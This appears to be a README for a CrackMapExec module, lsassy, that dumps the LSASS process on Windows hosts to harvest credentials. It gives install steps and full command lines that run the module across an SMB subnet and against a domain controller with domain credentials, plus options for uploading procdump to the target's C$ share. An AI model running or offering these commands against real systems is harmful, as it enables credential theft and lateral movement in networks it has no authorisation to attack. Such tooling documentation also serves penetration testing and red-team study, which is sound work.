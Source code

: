 ## Installation

* Copy `lsassy.py` in `[CME Path]/cme/modules`
* Reinstall CrackMapExec `python setup.py install`

## Requirements

* [lsassy](https://github.com/Hackndo/lsassy/)

## Usage

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy
```

You can check available options using

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy --options
            TMP_DIR             Path where process dump should be saved on target system (default: C:\Windows\Temp\)
            SHARE               Share to upload procdump and dump lsass (default: C$)
            PROCDUMP_PATH       Path where procdump.exe is on your system (default: /tmp/)
            PROCDUMP_EXE_NAME   Name of the procdump executable (default: procdump.exe)
```

Options can be set using

```bash
cme smb dc01.adsec.local -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o PROCDUMP_PATH='/home/pixis/Tools/' PROCDUMP_EXE_NAME='procdump.exe'
```

Have fun
